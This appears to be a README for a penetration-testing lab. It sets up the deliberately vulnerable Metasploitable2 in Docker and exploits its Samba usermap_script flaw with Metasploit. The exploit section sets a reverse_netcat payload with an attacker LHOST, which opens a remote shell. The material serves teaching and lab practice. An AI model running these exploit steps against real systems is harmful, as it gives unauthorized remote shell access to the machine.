 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
- Enable metaspoilt module and keep running
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"`

- Get Target IP
    - `docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable`

- Optional
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`

- Explanation of vulnerable
    - -p 445:445：開放 SMB（檔案共享漏洞）
    - -p 21:21：  開放 FTP（容易被暴力破解）
    - -p 22:22：  開放 SSH（可能存在弱密碼）
    - -p 80:80：  開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
- Check docker status
    - `docker ps`

- Debug
- If docker exist, but didn't running then delete it.
    - `docker rm -f vulnerable`
    - `docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"` # rerun vul docker
- Rerun
    - `docker start vulnerable`

# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`
`help  # check metasploit status`

- Optional
`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`

# 4. Scan target system
- Enable metaspoilt moudle
    - `use exploit/multi/samba/usermap_script`

- In metaspoilt command line
    - `msf6 > use auxiliary/scanner/smb/smb_version`
    - `msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2`
    - `msf6 auxiliary(scanner/smb/smb_version) > run`  # check port and vul

# 5. Exploit
- Load script
    - msf6 > `use exploit/multi/samba/usermap_script`

- Set target and payload
    - msf6 exploit(multi/samba/usermap_script) > `set RHOSTS 172.17.0.2`
    - msf6 exploit(multi/samba/usermap_script) > `check`
    - msf6 exploit(multi/samba/usermap_script) > `set PAYLOAD cmd/unix/reverse_netcat`

- Set reverse local host and attack
    - msf6 exploit(multi/samba/usermap_script) > `set LHOST 172.17.0.3`
    - msf6 exploit(multi/samba/usermap_script) > `exploit`

